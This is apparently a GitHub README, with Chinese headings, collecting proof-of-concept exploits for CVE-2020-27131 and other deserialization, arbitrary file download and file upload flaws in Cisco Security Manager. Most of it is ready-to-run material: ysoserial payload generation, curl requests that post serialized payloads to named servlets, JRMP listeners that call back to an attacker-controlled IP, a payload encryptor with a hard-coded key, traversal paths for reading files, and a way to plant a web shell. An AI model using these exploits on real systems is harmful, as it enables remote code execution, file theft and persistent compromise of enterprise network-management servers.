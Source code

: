 ## CVE-2020-27131 思科安全管理器反序列化漏洞 POC

## 简介

思科安全管理器是一个企业级安全管理应用程序，可提供对思科安全和网络设备的了解和控制。Cisco Security Manager在广泛的Cisco安全设备中提供全面的安全管理（配置和事件管理），包括Cisco ASA自适应安全设备，Cisco IPS系列传感器设备，Cisco集成服务路由器（ISR），Cisco防火墙服务模块（FWSM） ，Cisco Catalyst，Cisco交换机等等。Cisco Security Manager允许您有效地管理各种规模的网络-从小型网络到包含数百台设备的大型网络。

## POC

### SecretService.jsp  反序列化漏洞

```
java -cp ./commons-beanutils-1.6.1.jar:[YOUR_PATH]]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.GeneratePayload CommonsBeanutils1 "cmd.exe /c calc.exe" > payload_CommonsBeanutils
curl -k --request POST --data-binary "@payload_CommonsBeanutils" https://[TARGET_HOST]/CSCOnm/servlet/SecretService.jsp
```

### CsJaasServiceServlet 反序列化漏洞

Compile JaasEncryptor.java and replace the *b64Payload* content:

```
import java.security.InvalidKeyException;
import java.util.Base64;
import com.cisco.nm.cmf.security.jaas.BlobCrypt;

public class JaasEncryptor {

        public static void main(String args[]) {
                String b64Payload = "rO0ABXN9AAAAAQAaamF2YS5ybWkucmVnaXN0cnkuUmVnaXN0cnl4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcgAtamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdEludm9jYXRpb25IYW5kbGVyAAAAAAAAAAICAAB4cgAcamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdNNhtJEMYTMeAwAAeHB3MQAKVW5pY2FzdFJlZgAIMTAuMC4wLjIAAAG7AAAAAEBnvkQAAAAAAAAAAAAAAAAAAAB4";

                byte[] payload = Base64.getDecoder().decode(b64Payload);
                byte[] key = new byte[]{-100, 76, -23, 87, 125, 0, 5, 94, 12, 76, 37, -84, 36, 78, 123, 5};
                
                byte[] enc = BlobCrypt.encryptArray(payload, key);
                System.out.println("Encrypted payload: " + Base64.getEncoder().encodeToString(enc));
                byte[] dec = BlobCrypt.decryptArray(enc, key);
        }
}
```

Prepare JRMP Listener:

```
java -cp [YOUR_PATH]/commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 443
java -jar [YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient '[YOUR_IP]]:443' | base64 -w0
```

Compile encrypted payload:

```
javac -cp [YOUR_PATH]]/server_jars_classes/jars.jar:./ JaasEncryptor2.java; java -cp [YOUR_PATH]/server_jars_classes/jars.jar:./ JaasEncryptor
```

Send payload to Servlet with parameters *cmd=data* + new line + *data=[ENCRYPTED_PAYLOAD]*.

### AuthTokenServlet 反序列化漏洞

Prepare JRMP Listener:

```
java -cp [YOUR_PATH]/commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsBeanutils1 "cmd.exe /c calc.exe"
java -jar [YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient '[YOUR_IP]]:1337' > payload_JRMP1_2
```

Send request:

```
curl -k --request POST --data-binary "@payload_JRMP1_2" https://[TARGET_IP]/CSCOnm/servlet/com.cisco.nm.cmf.servlet.AuthTokenServlet
```

### ClientServicesServlet 反序列化漏洞

Prepare JRMP listener:

```
java -cp [YOUR_PATH]/commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsBeanutils1 "cmd.exe /c calc.exe"
java -jar [YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient '[YOUR_IP]:1337' > payload_JRMP1_3
```

Send request:

```
curl -k --request POST --data-binary "@payload_JRMP1_3" https://[TARGET_IP]/CSCOnm/servlet/com.cisco.nm.cmf.servlet.ClientServicesServlet
```

### CTMServlet 反序列化漏洞

```
java -cp ./commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.GeneratePayload CommonsBeanutils1 "cmd.exe /c calc.exe" > payload_CommonsBeanutils1_2
curl -i -s -k -X $'POST' -H $'Content-Type: application/octet-stream' -H $'CTM-URN: com-cisco-nm-vms-ipintel-IpIntelligenceApi' -H $'CTM-VERSION: 1.5' -H $'CTM-PRODUCT-ID: /C:/Program Files (x86)/CSCOpx/MDC/tomcat/vms/athena/WEB-INF/lib/' -H $'Cache-Control: no-cache' -H $'Pragma: no-cache' -H $'User-Agent: Java/1.8.0_222' -H $'Host: [TARGET_IP]' -H $'Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2' -H $'Connection: keep-alive' --data-binary "@payload_CommonsBeanutils1_2" $'https://[TARGET_IP]/athena/CTMServlet'
```

### XdmConfigRequestHandler任意文件下载

```
GET /athena/xdmProxy/xdmConfig[RELATIVE_PATH_TO_FILE]
```

### XdmResourceRequestHandler 任意文件下载

```
GET /athena/xdmProxy/xdmResources[RELATIVE_PATH_TO_FILE]?dmTargetType=TARGET.IDS&dmOsVersion=7.&command=editConfigDelta
```

### XmpFileUploadServlet 任意文件上传

Write a web shell e.g.

```
POST /cwhp/XmpFileUploadServlet?maxFileSize=100
```

Normal multi-part e.g. writing web shell in *filename* with*../../MDC/tomcat/webapps/cwhp/testme.jsp*.

### XmpFileDownloadServlet 任意文件下载

```
GET /cwhp/XmpFileDownloadServlet?parameterName=downloadDoc&downloadDirectory=[RELATIVE_PATH_TO_DIRECTORY]&readmeText=1
```

This will respond with a ZIP file containing all files from the directory.

### SampleFileDownloadServlet 任意文件下载

```
GET /cwhp/SampleFileDownloadServlet?downloadZipFileName=pwned&downloadFiles=README&downloadLocation=[RELATIVE_PATH_TO_DIRECTORY]
```

This will respond with a ZIP file containing all files from the directory.

### resultsFrame.jsp 任意文件下载

```
GET /athena/itf/resultsFrame.jsp?filename=[RELATIVE_PATH_TO_FILE]
```

### SecretServiceServlet 反序列化漏洞

See also https://de.tenable.com/security/research/tra-2017-23

```
java -cp [YOUR_PATH]/commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsBeanutils1 "cmd.exe /c calc.exe"
java -jar [YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient '[YOUR_IP]:1337' > payload_JRMP1_2
curl -k --request POST --data-binary "@payload_JRMP1_2" https://[TARGET_IP]/CSCOnm/servlet/com.cisco.nm.cmf.servlet.SecretServiceServlet
```

## 参考

https://www.zdnet.com/article/cisco-reveals-this-critical-bug-in-cisco-security-manager-after-exploits-are-posted-patch-now/

